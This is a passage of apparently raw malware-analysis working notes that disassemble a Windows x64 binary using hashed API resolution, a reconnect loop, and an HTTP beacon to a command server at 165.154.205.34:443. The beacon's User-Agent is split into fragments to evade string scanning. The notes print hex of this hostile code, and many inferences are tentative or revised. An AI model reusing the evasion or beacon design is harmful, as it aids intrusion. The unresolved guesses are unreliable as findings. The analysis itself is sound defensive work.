Test? `85 c0`? Let's check after 0x73d: hex at 0x740 `85 c0 75 e1 4c 8d...` yes at 0x740 `85 c0` test eax,eax; `75 e1` jne 0x723? Wait if connect fails, jumps back to 0x723? That would be retry loop with Sleep at 0x725! Ah! Let's re-evaluate: 0x740 test eax,eax; 0x742 `75 e1` jne 0x725 (not 0x723). Target: next 0x744 + 0xffffffe1 = 0x725. Yes! So on connect failure, it goes to Sleep(10000) and then retries connect (0x730). Great. On success, falls through. So Sleep import used. And call target for Sleep maybe [rip+0xcd0] = RVA 0x2400? But IAT at 0x2000. Wait maybe IAT at RVA 0x2000; call [rip+0x8d0]? Hmm. Let's recalc effective RVA from instruction at 0x172a to 0x2400; maybe IAT is at 0x2400 because import FirstThunk at RVA 0x2400? Let's reparse import descriptor at RVA 0x216c: FirstThunk might be 0x2400? At file 0xf7c bytes `00 20 00 00`? Could be 0x2000. But maybe I misaligned import descriptor: at file 0xf6c value 0x2198; at 0xf70 0; 0xf74 0; 0xf78 maybe 0x21b0; 0xf7c 0x2000. FirstThunk 0x2000. Hmm.
Could the call target be not 0x2400 due to code RVA maybe file offset + 0x1d? .text VA 0x1000 raw 0x400: RVA = file + 0xc00. 0x72a+0xc00=0x132a (not 0x172a!). Ah! I added wrong. File 0x400 -> RVA 0x1000 means RVA = file offset + 0xc00, not +0x1000. So file 0x72a -> RVA 0x132a! Yes, my mistake. Then next RVA 0x1330; +0xcd0 = 0x2000. Perfect, target IAT at RVA 0x2000. Great. So Sleep from IAT. Excellent.
Thus code logic:
- Resolver
- load libraries
- resolve APIs
- build log path using GetCurrentDirectoryA; delete existing log? Actually K=0x70f2fa31 called with path and edx=0 after sprintf. It might be `fopen`? Let's recalc registers relative. At 0x590 sprintf call uses rsi (J=0xd0eb608d). Then 0x59c `33 d2 xor edx,edx; lea rcx,buffer; call rbx` (K=0x70f2fa31). If K = DeleteFileA(path), edx irrelevant. Returns BOOL; test eax; je end. Then it proceeds to build C2 IP. So if DeleteFileA failed (no prior log), program would exit! That seems wrong if the log file doesn't exist; it should continue. Unless K is `CreateFileA` and failure to create would exit. But CreateFileA requires more args; rdx=0 (GENERIC_READ?), r8/r9 leftover from sprintf could be random. Could be `fopen(path, mode)` with mode NULL = invalid. Could be `GetFileAttributesA` and if returns 0 (not found) exit? Hmm.
Wait maybe the call at 0x59c is not K? Let's check register assignments:
At 0x4e1 `b9 75 6e 4d 61` then at 0x4e6 `4c 8b f8` = mov r15? Actually `4c 8b f8` is mov r15, rax, not rdi! Let's decode. 4c 8b f8 = mov r15, rax (REX.WR? ModRM F8: reg=7, rm=0; with REX.R=1 -> R15). I earlier misread as rdi. Correct:
- 0x4aa `48 8b f8` = mov rdi, rax? 48 8b f8: REX.W, 8B, ModRM F8 = reg=7 (rdi), rm=0 (rax) -> mov rdi,rax. Yes.
- 0x4e6 `4c 8b f8` = REX.WR (4C), mov r15, rax.
- 0x4ff `4c 8b e8` = mov r13, rax (4C = REX.WR? For r13: 4C 8B E8, reg=5 (rbp) + REX.R => r13). yes.
- 0x50c? `4c 8b e0` = mov r12, rax.
- 0x51e `48 8b f0` = mov rsi, rax.
- 0x52b `48 8b d8` = mov rbx, rax.
So after 0x4e6 r15 = hash 0x5fc8d902. rdi remains B (0xe0df0fea). Then at 0x6d? socket call `ff d7` calls rdi = hash 0xe0df0fea, not 0x5fc8d902. Good.
At 0x6fa call r13 = hash 0x803428a9 (gethostbyname)
At 0x709 call r12 = hash 0x4d7b1e12 (inet_addr)
At 0x73d call r14 = hash 0x6174a599 (connect)
At 0x740.. etc.
Still K=0x70f2fa31. What is K? It takes path in rcx, edx=0. Could be `fopen(path, "r")` if edx=0 is pointer to null string mode. But maybe function is `remove` (delete file) one arg. Then returns 0 on success (not failure), test eax; je end means if remove succeeds (returns 0) exits! That would be wrong. Could be `GetFileAttributesA`; returns -1 on failure (nonzero), 0 on success? Actually returns attributes or INVALID_FILE_ATTRIBUTES (0xFFFFFFFF), nonzero both; test eax would be nonzero unless attributes zero (unlikely). So not.
Maybe K = `CreateFileA` and rdx=0 = GENERIC_READ? The function would need 7 args but only 2 valid; other regs may retain values, but could still succeed opening existing file. If call fails returns -1 (INVALID_HANDLE_VALUE), test eax = 0xffffffff (nonzero) so doesn't exit, weird.
Could be K = `LoadLibraryA`? takes one arg path, edx ignored, returns HMODULE; if path doesn't exist returns 0 -> exits. But path is log file, not DLL. No.
Let's identify hashes maybe via known ROR13 plus module hash. We can compute some known API hashes to match? There is no tool, but can do manual maybe. However detailed report can say functions inferred by behavior.
Let's decode flow fully.
After connect success (0x743):
0x744: `4c 8d 85 68 0d 00 00 lea r8,[rbp+0xd68]` -> "w64" maybe
0x74b: `c7 45 18 47 45 54 20` writes "GET " at [rbp+0x18]
0x752: `48 8d 55 a8 lea rdx,[rbp-0x58]`
0x756: `c7 45 1c 2f 3f 61 00` writes "/?a\0" at +0x1c -> "GET /?a"
0x75d: `48 8d 8d 10 02 00 00 lea rcx,[rbp+0x210]`
0x764: `c7 45 a8 3d 25 73 26 66` writes "=%s&f" at [rbp-0x58]
0x76b: `c7 45 ac 68 3d` writes "h=" at -0x54, combined "=%s&fh=" maybe format "=%s&fh="
0x772: `88 5d ae` null
0x775: `c7 45 40 25 73 26 74` writes "%s&t" at [rbp+0x40]
0x77c: `c7 45 44 3d 25 73 26` writes "=%s&" at +0x44 -> "%s&t=%s&"
0x783: `88 5d 48` null
0x786: `c7 45 b8 70 3d 25 64` writes "p=%d" at [rbp-0x48]
0x78d: `c7 45 bc 20 48 54 00` writes " HT\0" -> "p=%d HT"
0x794: `c7 45 28 54 50 2f 31` writes "TP/1" at [rbp+0x28]
0x79b: `c7 45 2c 2e 31 0d 00` writes ".1\r\0" -> "TP/1.1\r\n"? Actually "TP/1.1\r" then null? Wait 0x79b bytes 2e 31 0d 00 -> ".1\r\0", combined at 0x28: "TP/1.1\r\0" (missing \n; maybe at 0x?).
0x7a2: `c7 45 38 0a 48 6f 73` writes "\nHos" at [rbp+0x38]
0x7a9: `c7 45 3c 74 3a 20 00` writes "t: \0" -> "\nHost: \0"
0x7b0: `c7 45 c0 25 73 3a 25` writes "%s:%" at [rbp-0x40]
0x7b7: `c7 45 c4 64 0d 0a 00` writes "d\r\n\0" -> "%s:%d\r\n"
0x7be: `c7 45 e0 55 73 65 72` writes "User" at [rbp-0x20]
0x7c5: `c7 45 e4 2d 41 67 00` writes "-Ag\0" -> "User-Ag"
0x7cc: `c7 45 d8 65 6e 74 3a` writes "ent:" at [rbp-0x28] [Wait overlapping with [rbp-0x20]? Let's map: [rbp-0x28] and [rbp-0x20] are separate chunks to form "User-Agent: "? Need continuous memory? At rbp-0x28 "ent:" and at rbp-0x20 "User-Ag" might be out of order? Let's calculate: rbp-0x28 + 4 = rbp-0x24; next maybe [rbp-0x24]? They write at rbp-0x28, then rbp-0x20; gap 4 bytes? Hmm perhaps strings are separate fragments used by sprintf as args, not contiguous.]
0x7d3: `c7 45 dc 20 4d 6f 00` writes " Mo\0" -> "ent: Mo"
0x7da: `c7 45 d0 7a 69 6c 6c` writes "zill" at [rbp-0x30]
0x7e1: `c7 45 d4 61 2f 35 00` writes "a/5\0" -> "zilla/5"
0x7e8: `c7 45 c8 2e 30 20 28` writes ".0 (" at [rbp-0x38]
0x7ef: `c7 45 cc 57 69 6e 00` writes "Win\0" -> ".0 (Win"
0x7f6: `c7 45 f8 64 6f 77 73` writes "dows" at [rbp-8]
0x7fd: `c7 45 fc 20 4e 54 00` writes " NT\0" -> "dows NT"
0x804: `c7 45 f0 20 36 2e 31` writes " 6.1" at [rbp-0x10]
0x80b: `c7 45 f4 3b 20 72 00` writes "; r\0" -> " 6.1; r"
0x812: `c7 45 20 20 76 3a 34` writes " v:4" at [rbp+0x20]
0x819: `c7 45 24 38 2e 30 00` writes "8.0\0" -> " v:48.0"
0x820: `c7 45 e8 20 29 20 47` writes " ) G" at [rbp-0x18]
0x827: `c7 45 ec 65 63 6b 00` writes "eck\0" -> " ) Geck"
0x82e: `c7 45 10 20 6f 2f 32` writes " o/2" at [rbp+0x10]
0x835: `c7 45 14 30 31 30 00` writes "010\0" -> " o/2010"
0x83c: `c7 45 08 20 30 31 30` writes " 010" at [rbp+8]
0x843: `c7 45 0c 31 20 46 00` writes "1 F\0" -> " 0101 F"
0x84a: `c7 45 00 20 69 72 65` writes " ire" at [rbp+0]
0x851: `c7 45 04 66 6f 78 00` writes "fox\0" -> " irefox"
0x858: `c7 45 b0 20 2f 34 38 66` writes " /48f" at [rbp-0x50]
0x85f: `c7 45 b4 2e 30 00`? bytes at 0x85f: `c7 45 b4 2e 30 88 5d b6` Wait instruction `c7 45 b4 2e 30 88 5d` would be 7 bytes? Actually line:
00000850: 66 6f 78 00 c7 45 b0 20 2f 34 38 66 c7 45 b4
00000860: 2e 30 88 5d b6 c7 45 98 0d 0a 0d 0a 88 5d
At 0x858: c7 45 b0 20 2f 34 38 66 = mov dword [rbp-0x50], 0x6638342f ("/48f")
At 0x85f: c7 45 b4 2e 30 88 5d? Wait `c7 45 b4` is 3 bytes then imm32 should be 4 bytes: 2e 30 88 5d -> that's weird. Let's align:
0x858 c7
0x859 45
0x85a b0
0x85b 20
0x85c 2f
0x85d 34
0x85e 38
0x85f 66
0x860 2e
0x861 30
0x862 88
0x863 5d
0x864 b6
So instruction at 0x858 is 7 bytes: c7 45 b0 20 2f 34 38 -> imm = 0x38342f20 = " /48"; then at 0x85f `66 c7 45 b4 2e 30` = mov word [rbp-0x4c], 0x302e (".0"), then 0x865 `88 5d b6` null at rbp-0x4a. So combined at rbp-0x50: " /48" + ".0" = " /48.0"? Wait bytes: at rbp-0x50 dword " /48" (20 2f 34 38), then word at rbp-0x4c ".0" (2e 30), null at rbp-0x4a. So " /48.0". That's interesting, likely fragment of User-Agent: "Mozilla/5.0 (Windows NT 6.1; rv:48.0) Gecko/20100101 Firefox/48.0". Yes! The UA fragments:
- "User-Ag" + "ent: Mo" + "zilla/5" + ".0 (Win" + "dows NT" + " 6.1; r" + " v:48.0" + " ) Geck" + "o/2010" + "1 F" + "irefox" + " /48.0"
Let's concatenate in correct order:
"User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:48.0) Gecko/20100101 Firefox/48.0"
Yes! Great. The fragments are at various local offsets and used in an sprintf with "%s%s%s..." They are intentionally split to evade strings.
So the binary sends HTTP GET request with UA Firefox 48 on Windows NT 6.1.
Continue:
0x86? after UA:
0x865 `88 5d b6` null
0x868 `c7 45 98 0d 0a 0d 0a` writes "\r\n\r\n" at [rbp-0x68]
0x86f `88 5d 9c` null
0x872 `ff d6` call rsi (J = sprintf) with args from setup:
At 0x872? Let's map before:
0x74? We need identify calls. At 0x744-0x86f they set up formats/fragments. Then at 0x872 call rsi = sprintf. Args likely:
`4c 8d 8d 70 0d 00 00` lea r9,[rbp+0xd70] = "ws_"
`4c 8d 85 b0 00 00 00` lea r8,[rbp+0xb0] = host IP
`48 8d 55 40` lea rdx,[rbp+0x40] = format "%s&t=%s&"
`48 8d 8d d0 01 00 00` lea rcx,[rbp+0x1d0] output
call rsi
So builds something. Let's list exact calls from 0x872 onward. Need reconstruct all strings and functions.
Hex from 0x860 to 0x8b0:
00000860: 2e 30 88 5d b6 c7 45 98 0d 0a 0d 0a 88 5d
00000870: 9c ff d6 4c 8d 8d 70 0d 00 00 4c 8d 85 b0 00
00000880: 00 00 48 8d 55 40 48 8d 8d d0 01 00 00 ff d6
00000890: 0f b7 85 82 00 00 00 48 8d 55 b8 44 0f b6 c0
000008a0: 48 8d 8d 90 01 00 00 41 c1 e0 08 c1 e8 08 44
000008b0: 0b c0 ff d6 0f b7 85 82 00 00 00 4c 8d 85 b0
000008c0: 00 00 00 44 0f b6 c8 48 8d 55 c0 41 c1 e1 08
000008d0: 48 8d 8d 50 02 00 00 c1 e8 08 44 0b c8 ff d6
000008e0: 48 8d 45 c8 c7 44 24 40 25 73 25 73 48 89 44
000008f0: 24 28 4c 8d 4d d8 48 8d 45 d0 66 c7 44 24 44
00000900: 25 73 48 89 44 24 20 4c 8d 45 e0 88 5c 24 46
00000910: c7 44 24 30 25 73 25 73 c7 44 24 34 25 73 25
00000920: 73 88 5c 24 38 48 8d 54 24 30 48 8d 8d 70 01
00000930: 00 00 ff d6 48 8d 45 e8 48 89 44 24 28 4c 8d
00000940: 4d f0 48 8d 45 20 4c 8d 45 f8 48 89 44 24 20
00000950: 48 8d 54 24 30 48 8d 8d 50 01 00 00 ff d6 48
00000960: 8d 45 b0 48 89 44 24 28 4c 8d 4d 08 48 8d 45
00000970: 00 4c 8d 45 10 48 89 44 24 20 48 8d 54 24 30
00000980: 48 8d 8d 30 01 00 00 ff d6 48 8d 85 30 01 00
00000990: 00 4c 8d 8d 50 01 00 00 48 89 44 24 20 4c 8d
000009a0: 85 70 01 00 00 48 8d 54 24 40 48 8d 8d 10 03
000009b0: 00 00 ff d6 48 8d 85 90 01 00 00 48 89 44 24
000009c0: 28 4c 8d 8d 10 02 00 00 48 8d 85 d0 01 00 00
000009d0: 4c 8d 45 18 48 89 44 24 20 48 8d 54 24 30 48
000009e0: 8d 8d 70 05 00 00 ff d6 48 8d 85 10 03 00 00
000009f0: 48 89 44 24 28 4c 8d 4d 38 48 8d 85 50 02 00
00000a00: 00 4c 8d 45 28 48 89 44 24 20 48 8d 54 24 30
00000a10: 48 8d 8d 70 03 00 00 ff d6 48 8d 45 98 4c 8d
00000a20: 8d 70 03 00 00 48 89 44 24 20 4c 8d 85 70 05
00000a30: 00 00 48 8d 54 24 40 48 8d 8d 10 09 00 00 ff
00000a40: d6 45 33 c9 48 8d 95 10 09 00 00 41 b8 00 04
00000a50: 00 00 48 8b cf ff 95 a8 00 00 00 4c 8b a5 90
00000a60: 00 00 00 33 c9 ba b8 0b 00 00 41 08 00 10 ...
Persistent local buffer addresses:
- rbp+0x00: " irefox" (part of UA)
- rbp+0x08: " 0101 F"?
- rbp+0x10: " o/2010"
- rbp+0x18: "GET /?a"
- rbp+0x20: " v:48.0"
- rbp+0x28: "TP/1.1\r"
- rbp+0x30: "log_de."
- rbp+0x38: "\nHost: "
- rbp+0x40: "%s&t=%s&"
- rbp-0x78: empty? maybe used
- rbp-0x70: "%s%s"
- rbp-0x68: "\r\n\r\n"
- rbp-0x58: "=%s&fh="
- rbp-0x50: " /48.0"
- rbp-0x48: "p=%d HT"
- rbp-0x40: "%s:%d\r\n"
- rbp-0x38: ".0 (Win"
- rbp-0x30: "zilla/5"
- rbp-0x28: "ent: Mo"
- rbp-0x20: "User-Ag"
- rbp-0x18: " ) Geck"
- rbp-0x10: " 6.1; r"
- rbp-0x08: "dows NT"
- rbp-0x80 empty
- rbp-0x74 etc nulls
Other buffers:
rbp+0x90: API E? Wait [rbp+0x90] stores function pointer; but also c7 45 90 writes at rbp-0x70, not conflict.
rbp+0x98: pointer G
rbp+0xa0: WSAStartup ptr
rbp+0xa8: send/recv? pointer D
rbp+0xb0: host string IP
rbp+0xf0: empty string?
rbp+0x110: IP string
rbp+0x1d0, 0x210, etc.
Calls:
1. 0x872 call rsi (sprintf):
args from 0x873:
rcx = rbp+0x1d0
rdx = rbp+0x40 (format "%s&t=%s&")
r8 = rbp+0xb0 (host)
r9 = rbp+0xd70 ("ws_")
=> output at 1d0 = host + "&t=" + "ws_" + "&"? Wait format "%s&t=%s&": arg1 host, arg2 "ws_". Output "165.154.205.34&t=ws_&"? Weird. Maybe format at rbp+0x40 is not "%s&t=%s&" but part of URL query. Need inspect memory layout: It writes `c7 45 40 25 73 26 74` at rbp+0x40 = "%s&t" and `c7 45 44 3d 25 73 26` at rbp+0x44 = "=%s&" so combined "%s&t=%s&". Yes.
Then r9 = "ws_" and r8 = host. Hmm output host&t=ws_& maybe used as part of query.
2. At 0x891:
`0f b7 85 82 00 00 00 movzx eax, word [rbp+0x82]`
`48 8d 55 b8 lea rdx,[rbp-0x48]` format "p=%d HT"
`44 0f b6 c0 movzx r8d, al`
`48 8d 8d 90 01 00 00 lea rcx,[rbp+0x190]`
`41 c1 e0 08 shl r8d,8`
`c1 e8 08 shr eax,8`
`44 0b c0 or r8d,eax`
`ff d6 call rsi`
This formats port from sockaddr at rbp+0x80: word at 0x82 is sin_port (network order). It reads low byte and high byte, swaps into host-order (shl low byte 8 | high byte), then sprintf "p=%d HT" with port. Output at rbp+0x190 = "p=443 HT" (literally "p=443 HT" maybe missing "TP"? Wait format "p=%d HT" then later "TP/1.1" appended by another call => "p=443 HTTP/1.1"). Yes.
3. At 0x8b6:
same port extraction to r9d:
`movzx eax, word [rbp+0x82]`
`lea r8,[rbp+0xb0]` host
`movzx r9d, al`
`lea rdx,[rbp-0x40]` format "%s:%d\r\n"
`lea rcx,[rbp+0x250]`
`shl r9d,8`
`shr eax,8`
`or r9d,eax`
`call rsi`
This builds Host header value at 0x250 = "165.154.205.34:443\r\n". Wait format "%s:%d\r\n" with r8=host, r9=port. Good.
4. At 0x8e0 onward: build User-Agent concatenation? It sets up a format at rsp+0x30:
At 0x8e0 `lea rax,[rbp-0x38]` (".0 (Win"?)
`c7 44 24 40 25 73 25 73` writes "%s%s" at rsp+0x40
`mov [rsp+0x28],rax`
`lea r9,[rbp-0x28]` ("ent: Mo")
`lea rax,[rbp-0x30]` ("zilla/5")
`66 c7 44 24 44 25 73` writes "%s" at rsp+0x44 -> combined at rsp+0x40 "%s%s%s"? Let's see: dword at 0x40 "%s%s", word at 0x44 "%s", null at 0x46 -> "%s%s%s".
`mov [rsp+0x20],rax`
`lea r8,[rbp-0x20]` ("User-Ag")
`mov [rsp+0x46],bl` null
`c7 44 24 30 25 73 25 73` writes "%s%s" at rsp+0x30
`c7 44 24 34 25 73 25 73` writes "%s%s" at rsp+0x34 -> combined at 0x30: "%s%s%s%s"
`mov [rsp+0x38],bl`
`lea rdx,[rsp+0x30]` format "%s%s%s%s"
`lea rcx,[rbp+0x170]`
`call rsi`
Args:
- r8 = rbp-0x20 ("User-Ag")
- r9 = rbp-0x28 ("ent: Mo")
- stack [rsp+0x20] = rbp-0x30 ("zilla/5")
- [rsp+0x28] = rbp-0x38 (".0 (Win")
Format "%s%s%s%s" -> at rbp+0x170: "User-Agent: Mozilla/5.0 (Win" + perhaps more. Yes.
5. At 0x933:
`lea rax,[rbp-0x18]` (" ) Geck")
`mov [rsp+0x28],rax`
`lea r9,[rbp-0x10]` (" 6.1; r")
`lea rax,[rbp+0x20]` (" v:48.0")
`lea r8,[rbp-0x08]` ("dows NT")
`mov [rsp+0x20],rax`
`lea rdx,[rsp+0x30]` format
`lea rcx,[rbp+0x150]`
`call rsi`
Args: r8 "dows NT", r9 " 6.1; r", stack arg3 rbp+0x20 " v:48.0", stack arg4 rbp-0x18 " ) Geck" -> output at 0x150: "dows NT 6.1; rv:48.0 ) Geck" Hmm order weird but maybe to concatenate.
6. At 0x95c:
`lea rax,[rbp-0x50]` (" /48.0")
`mov [rsp+0x28],rax`
`lea r9,[rbp+8]` (" 0101 F")
`lea rax,[rbp+0x00]` (" irefox")
`lea r8,[rbp+0x10]` (" o/2010")
`mov [rsp+0x20],rax`
`lea rdx,[rsp+0x30]`
`lea rcx,[rbp+0x130]`
`call rsi`
Output at 0x130 = " o/2010 0101 F irefox /48.0"? Hmm.
7. At 0x986:
`lea rax,[rbp+0x130]`
`lea r9,[rbp+0x150]`
`mov [rsp+0x20],rax`
`lea r8,[rbp+0x170]`
`lea rdx,[rsp+0x40]` format "%s%s%s"
`lea rcx,[rbp+0x310]`
`call rsi`
This concatenates 0x170 + 0x150 + 0x130. Let's compute resulting UA:
- 0x170: "User-Agent: Mozilla/5.0 (Win"
- 0x150: "dows NT 6.1; rv:48.0 ) Geck"
- 0x130: " o/2010 0101 F irefox /48.0"?? Wait fragments order/addresses maybe produce correctly:
Fragments at rbp+0x10 " o/2010", rbp+0x08 " 0101 F", rbp+0x00 " irefox", rbp-0x50 " /48.0". If concatenated as format with args r8=rbp+0x10 (" o/2010"), r9=rbp+0x08 (" 0101 F"), arg3=rbp+0x00 (" irefox"), arg4=rbp-0x50 (" /48.0") -> " o/2010 0101 F irefox /48.0" gives spaces: "Gecko/20100101 Firefox/48.0" if we combine "Geck" + "o/2010" + "1 F" + "irefox" + " /48.0". Wait my fragments:
- rbp+0x10 " o/2010" has leading space but should be "o/2010"; perhaps previous string " ) Geck" includes trailing? Let's inspect exact fragments:
At rbp+0x10: `c7 45 10 20 6f 2f 32` = " o/2" (leading space), at +0x14 `30 31 30 00` = "010\0" -> " o/2010".
But if concatenated after "Geck", result "Geck o/2010" not "Gecko/2010". Hmm maybe the leading byte at rbp+0x10 is not used because previous string at 0x150 ends with "Geck" and they intend pointer +1? But they use lea rbp+0x10. Wait maybe string is "o/2010" with the byte at rbp+0x10 being ' '? Let's re-examine: `c7 45 10 20 6f 2f 32` writes bytes [rbp+0x10]=0x20 (space), +0x11='o', +0x12='/', +0x13='2'; `c7 45 14 30 31 30 00` writes +0x14='0', +0x15='1', +0x16='0', +0x17=0. So indeed " o/2010". But maybe there is overlap with previous fragments? At rbp+0x18 is "GET " and not relevant. Could the leading space actually be intended for "Gecko/20100101 Firefox/48.0" if previous ends "Geck" and then "o/2010" without space; the space looks like typo or obfuscation split? Wait maybe the byte is `0x20` but the format string could skip? No.
Let's review other fragments: rbp+0x08 `c7 45 08 20 30 31 30` = " 010" then +0x0c "1 F" -> " 0101 F". leading space. rbp+0x00 `c7 45 00 20 69 72 65` = " ire" then +0x04 "fox" -> " irefox". leading space. rbp-0x50 `c7 45 b0 20 2f 34 38` = " /48" and +0x? ".0" -> " /48.0". All fragments have leading space. Maybe each was generated by splitting "User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:48.0) Gecko/20100101 Firefox/48.0" with spaces retained at starts? Let's reconstruct via chunks at boundaries:
- "User-Agent: Mo" + "zilla/5" + ".0 (Win" + "dows NT" + " 6.1; r" + "v:48.0" + " ) Geck" + "o/2010" + "101 F" + "irefox" + "/48.0"
But code fragments with leading spaces:
"User-Ag"+"ent: Mo" = "User-Agent: Mo"
+"zilla/5" = "...Mozilla/5"
+".0 (Win" = "...Mozilla/5.0 (Win"
+"dows NT" = "...Windows NT"
+" 6.1; r" = "...NT 6.1; r"
+" v:48.0" = "...; r v:48.0" (extra space!) Should be "rv:48.0", not "r v:48.0". Hmm perhaps the 'v' fragment is "v:48.0" without leading space? Let's check rbp+0x20: `c7 45 20 20 76 3a 34` = first byte 0x20 space, then 'v',':','4'; +0x24 "8.0\0". So " v:48.0" leading space. Then " ) Geck" leading space. Then " o/2010" leading space. Then " 0101 F" leading space. Then " irefox" leading space. Then " /48.0" leading space. The resulting UA string would have extra spaces: "User-Agent: Mozilla/5.0 (Windows NT 6.1; r v:48.0 ) Geck o/2010 0101 F irefox /48.0". That seems malformed. But maybe the code deliberately uses format strings like "%s%s" without spaces? Wait the fragments are used as arguments but each has leading space intentionally? Wait maybe they are not concatenated directly: some `sprintf` calls use format strings with "%s" and maybe skip leading? Let's check first: "User-Agent: Mo" etc. At 0x8e0 format "%s%s%s%s" with arguments:
r8 = rbp-0x20 = "User-Ag"
r9 = rbp-0x28 = "ent: Mo"
arg3 = rbp-0x30 = "zilla/5"
arg4 = rbp-0x38 = ".0 (Win"
result = "User-Agent: Mozilla/5.0 (Win" correct.
Second at 0x933 format "%s%s%s%s" with r8=rbp-0x08 = "dows NT"; r9=rbp-0x10 = " 6.1; r"; arg3=rbp+0x20 = " v:48.0"; arg4=rbp-0x18 = " ) Geck". Result = "dows NT 6.1; r v:48.0 ) Geck". Hmm extra spaces around v and ). But maybe the fragments at rbp+0x20 and rbp-0x18 actually start with spaces because the space belongs before "rv" and before ")"? The standard UA has "Windows NT 6.1; rv:48.0) Gecko/20100101 Firefox/48.0" with no space before v, no space before ). But maybe their UA is intentionally "Windows NT 6.1; r v:48.0 ) Geck..."? That would not be a normal UA. Wait maybe I misread memory layout: The format `"%s%s%s%s"` at rsp+0x30 is constructed at 0x910: `c7 44 24 30 25 73 25 73` and `c7 44 24 34 25 73 25 73`. That yields "%s%s%s%s". Yes.
But maybe the fragments are not used in that order because the stack args are `[rsp+0x20]` and `[rsp+0x28]`; at x64, for variadic functions, stack args are at [rsp+0x20] (5th arg), [rsp+0x28] (6th), not 3rd and 4th? Wait in Windows x64 calling convention, first 4 args go in RCX, RDX, R8, R9; fifth and beyond on stack at [rsp+0x20], [rsp+0x28], ... because caller reserves 0x20 shadow space. Yes! I was mistaken: For `sprintf(buffer, format, arg1, arg2, arg3, arg4)`, RCX=buffer, RDX=format, R8=arg1, R9=arg2, stack [rsp+0x20]=arg3, [rsp+0x28]=arg4. Correct. So arg3/arg4 as above.
But at 0x933, r8=rbp-0x08, r9=rbp-0x10, arg3=rbp+0x20, arg4=rbp-0x18. That is "dows NT 6.1; r v:48.0 ) Geck". Maybe spaces intended to be there to break strings? It would make UA slightly nonstandard but still resembles. Let's not assume exact perfect; just report.
Third at 0x95c: r8=rbp+0x10 " o/2010"; r9=rbp+0x08 " 0101 F"; arg3=rbp+0x00 " irefox"; arg4=rbp-0x50 " /48.0" -> " o/2010 0101 F irefox /48.0". Combined with "Geck" yields "Geck o/2010..." also extra spaces. It seems every fragment after the first group has leading space. Why? Possibly because the code is not building a direct UA but uses fragments to evade static string detection and accidentally adds spaces? Could be intentionally left as "Geck o/2010..."? Hmm.
Wait maybe the leading byte is not space; let's double-check hex: At 0x820: `c7 45 e8 20 29 20 47` -> at rbp-0x18 = 0x20, then ')' then space then 'G'. So " ) G" then at 0x827 `65 63 6b 00` = "eck\0" -> " ) Geck". Yes leading and internal spaces. At 0x812: `c7 45 20 20 76 3a 34` = " v:4"; yes.
Maybe original intended string is "Mozilla/5.0 (Windows NT 6.1; rv:48.0) Gecko/20100101 Firefox/48.0" but they inserted spaces as anti-string-scan noise? Not if sent over HTTP. But maybe the code uses **format** `%s%s%s%s` with a format string that removes spaces? No.
Actually wait! The fragments are not memory-contiguous; each `c7 45 disp imm32` writes dword in little-endian. For `c7 45 20 20 76 3a 34`, the bytes in memory are 20 76 3a 34 -> " v:4". Yes.
Perhaps they intend "r v:48.0" and " ) Geck" because they split at spaces and kept spaces. The resulting UA would indeed have extra spaces, but maybe the C2 doesn't care. It may be a crude decoy.
Let's inspect the final full request construction. After building parts:
- at 0x872 output at rbp+0x1d0: host + "&t=" + "ws_" + "&"
- at 0x891 output at rbp+0x190: "p=443 HT"
- at 0x8b6 output at rbp+0x250: "165.154.205.34:443\r\n" (Host header)
- at 0x8e0 output at rbp+0x170: UA part1
- at 0x933 output at rbp+0x150: UA part2
- at 0x95c output at rbp+0x130: UA part3
- at 0x986: sprintf output at rbp+0x310 with format at rsp+0x40 (`%s%s%s`), args r8=rbp+0x170 (UA part1), r9=rbp+0x150 (UA part2), stack arg rbp+0x130 (UA part3) -> full UA string at 0x310.
- at 0x9a9:
`lea rax,[rbp+0x190]` ("p=443 HT")
`mov [rsp+0x28],rax`
`lea r9,[rbp+0x210]` (?)
`lea rax,[rbp+0x1d0]` (host&t=ws_&)
`lea r8,[rbp+0x18]` ("GET /?a")
`mov [rsp+0x20],rax`
`lea rdx,[rsp+0x30]` format `%s%s%s%s`
`lea rcx,[rbp+0x570]`
`call rsi`
This builds request line/query at 0x570 from:
arg1 r8 = "GET /?a"
arg2 r9 = rbp+0x210 (what is at 0x210? Maybe `=%s&fh=` string? Wait rbp+0x210 is a buffer, not the format at rbp-0x58. It may have been initialized? At 0x75d `lea rcx,[rbp+0x210]`; but no sprintf into it before? Let's find call where rcx=rbp+0x210. At 0x75d lea rcx,[rbp+0x210]; then later? Actually at 0x75d sets rcx for a call at 0x? Let's look: At 0x74b-0x772 they set up:
rdx = rbp-0x58 format "=%s&fh="
rcx = rbp+0x210
r8 = rbp+0xd68 ("w64")
... after some writes, is there a call rsi before 0x872? Wait 0x764 writes format at rbp-0x58. Then 0x775 writes format at rbp+0x40. Then 0x786 etc. I don't see a call between 0x75d and 0x872 except maybe at 0x? Let's revisit 0x744-0x872. There is no call until 0x872? Actually at 0x872 call. So `lea rcx,[rbp+0x210]` at 0x75d is not used until maybe later? Hmm maybe rcx is overwritten later. But the buffer at 0x210 might be uninitialized. Wait perhaps there is a call at 0x? Let's re-read hex from 0x740 to 0x870:
00000740: 85 c0 75 e1 4c 8d 85 68 0d 00 00 c7 45 18 47 45
00000750: 54 20 48 8d 55 a8 c7 45 1c 2f 3f 61 00 48 8d 8d
00000760: 10 02 00 00 c7 45 a8 3d 25 73 26 66 c7 45 ac 68
00000770: 3d 88 5d ae c7 45 40 25 73 26 74 c7 45 44 3d 25
00000780: 73 26 88 5d 48 c7 45 b8 70 3d 25 64 c7 45 bc 20
00000790: 48 54 00 c7 45 28 54 50 2f 31 c7 45 2c 2e 31 0d
000007a0: 00 c7 45 38 0a 48 6f 73 c7 45 3c 74 3a 20 00 c7
000007b0: 45 c0 25 73 3a 25 c7 45 c4 64 0d 0a 00 c7 45 e0
000007c0: 55 73 65 72 c7 45 e4 2d 41 67 00 c7 45 d8 65 6e
000007d0: 74 3a c7 45 d0 7a 69 6c 6c c7 45 dc 20 4d 6f 00
000007e0: c7 45 d4 61 2f 35 00 c7 45 c8 2e 30 20 28 c7 45
000007f0: cc 57 69 6e 00 c7 45 f8 64 6f 77 73 c7 45 fc 20
00000800: 4e 54 00 c7 45 f0 20 36 2e 31 c7 45 f4 3b 20 72
00000810: 00 c7 45 20 20 76 3a 34 c7 45 24 38 2e 30 00 c7
00000820: 45 e8 20 29 20 47 c7 45 ec 65 63 6b 00 c7 45 10
00000830: 20 6f 2f 32 c7 45 14 30 31 30 00 c7 45 08 20 30
00000840: 31 30 c7 45 0c 31 20 46 00 c7 45 00 20 69 72 65
